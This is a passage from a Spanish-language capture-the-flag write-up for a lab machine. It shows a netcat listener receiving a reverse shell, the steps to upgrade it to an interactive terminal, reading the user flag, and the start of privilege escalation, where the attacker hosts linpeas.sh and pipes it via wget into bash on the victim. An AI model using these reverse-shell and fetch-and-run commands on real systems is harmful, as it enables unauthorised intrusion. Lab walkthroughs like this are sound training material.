 Observa la **netcat**:
```bash
nc -nvlp 1337
listening on [any] 1337 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.100.30] 53010
whoami
melon
```

Ya solo falta obtener una sesión interactiva:
```bash
# Paso 1:
script /dev/null -c bash

# Paso 2:
CTRL + Z

# Paso 3:
stty raw -echo; fg

# Paso 4:
reset -> xterm

# Paso 5:
export TERM=xterm && export SHELL=bash && stty rows 51 columns 189
```

Ya podemos ver la flag del usuario:
```bash
melon@TheHackersLabs-Melonjamon:/tmp$ cd /home/melon/
melon@TheHackersLabs-Melonjamon:~$ ls
user.txt
melon@TheHackersLabs-Melonjamon:~$ cat user.txt
...
```

<br>

<h2 id="APT">Escalando Privilegios Abusando de Funcionalidad APT y Tareas CRON</h2>

Para esta parte, ocuparemos las herramientas **linpeas.sh** y **pspy64**, que puedes descargar de los siguientes repositorios:
* <a href="https://github.com/peass-ng/PEASS-ng/tree/master" target="_blank">Repositorio de peass-ng: PEASS-ng</a>
* <a href="https://github.com/DominicBreuker/pspy" target="_blank">Repositorio de DominicBreuker: pspy64</a>

Vamos a utilizar primero **linpeas.sh** para buscar alguna vulnerabilidad dentro de la máquina.

Abre un servidor web con **Python3**:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde la máquina víctima, ejecuta **linpeas.sh** de manera remota con **wget**:
```bash
melon@TheHackersLabs-Melonjamon:~$ wget -qO- http://Tu_IP/linpeas.sh | bash
```
